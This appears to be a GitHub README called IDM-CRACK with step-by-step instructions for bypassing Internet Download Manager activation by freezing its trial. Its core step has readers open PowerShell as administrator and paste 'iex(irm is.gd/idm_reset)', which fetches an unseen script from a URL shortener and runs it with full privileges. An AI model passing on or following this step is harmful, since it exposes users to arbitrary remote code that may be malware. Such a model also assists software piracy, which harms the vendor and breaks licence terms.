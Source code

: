 # IDM-CRACK
The activation that is required by IDM is cracked by freezing the trial period
PLEASE FOLLOW THE INSTRUCTIONS !!!!

STEP 1; Press the "windows" icon on your keyboard
STEP 2; Type "Powershell" and open as adminstrator
STEP 3; COPY and PASTE this "iex(irm is.gd/idm_reset)" then press ENTER
STEP 4; If you haven't downloaded IDM press 4
STEP 5; Now press 2 to freeze trial.Let it download the PNG files 
STEP 6; Once its done PRESS ANY KEY  to go back
STEP 7; PRESS 0 to EXIT
STEP 8; YOU ARE KNOW DONE !!!!!!!!!!
